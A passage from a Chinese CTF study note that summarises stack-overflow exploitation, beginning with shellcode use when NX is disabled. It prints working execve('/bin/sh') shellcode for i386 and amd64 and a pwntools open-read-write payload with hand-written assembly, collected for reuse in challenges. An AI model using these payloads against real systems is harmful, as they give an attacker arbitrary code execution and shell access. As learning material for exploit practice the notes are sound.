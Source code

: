 [toc]

## 栈溢出攻击总结

**备注**：陆陆续续也做了不少题目了，但是似乎缺乏一些系统性的总结，特别是在`pwn`这块，栈溢出的各种技巧有待持续加强。本篇首先总结一下栈溢出的一些方式。同时，也会把攻击脚本记录在这里，以便后续取用。

### 1、shellcode

#### 利用原理

控制程序执行流去执行机器码指令

#### 使用条件

可以控制`EIP`寄存器，程序关闭了`NX`保护或者某个可读可写段具有可执行权限。可以结合`mprotect`函数或者`mmap`函数执行攻击。

当程序关闭了`NX`保护，这个时候可以考虑`shellcode`，`shellcode`不一定是获取`shell`，也可以是`ORW`的`shellcode`，即为`open(/flag)`------`read(3, addr, 0x30)`------`write(1, addr, 0x30)`。

#### 常用脚本 

##### 1）普通shellcode

首先记录一些常用的`shellcode`，分别适用于`32`位和`64`位系统，更多shellcode可以访问[shellstorm](http://shell-storm.org/shellcode/)

```
shellcode---linux---execve(/bin/sh)
-----------------------------------------------------------------------------
i386, 长度23字节
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

amd64，长度29字节
shellcode = "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
```

##### 2）禁用了system的shellcode

这里也放一下`orw`的`shellcode`，偶尔会遇到这种题。

```python
from pwn import *
# 这里的架构可以按需更改
context.update(arch='i386', os='linux', endian='little')
shellcode = shellcraft.open('/home/orw/flag',0)
shellcode += shellcraft.read('eax','esp', 0x30)
shellcode += shellcraft.write(1, 'esp', 0x30)
print(asm(shellcode))

# 手写汇编
'''
/* push b'/home/orw/flag\x00' */
push 0x1010101
xor dword ptr [esp], 0x1016660
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f
mov ebx, esp
xor ecx, ecx
xor edx, edx
/* call open() */
push 5 /* 5 */
pop eax
int 0x80
```